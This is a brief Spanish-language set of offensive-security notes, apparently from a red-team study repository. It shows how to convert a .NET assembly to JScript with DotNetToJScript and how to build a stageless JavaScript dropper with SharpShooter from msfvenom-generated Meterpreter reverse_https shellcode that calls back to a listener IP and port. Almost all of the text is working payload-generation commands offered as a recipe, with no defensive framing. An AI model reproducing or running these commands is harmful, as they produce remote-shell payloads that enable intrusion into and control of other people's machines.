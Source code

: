 ### C# a JScript
[https://github.com/tyranid/DotNetToJScript](https://github.com/tyranid/DotNetToJScript)

#### Proceso de ejecucion
ruta -> C:\<path>\DotNetToJScript\DotNetToJScript\bin\Release\  
DotNetToJScript.exe NDesk.Options.dll

ruta -> C:\<path>\DotNetToJScript\ExampleAssembly\bin\Release\  
 ExampleAssembly.dll
 
#### Compilacion
```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o dmo.js
```

----

### SharpShooter
Uso de virtualEnv para la ejecucion
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=4444 -f raw -o shell.txt
```

```
python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test
```


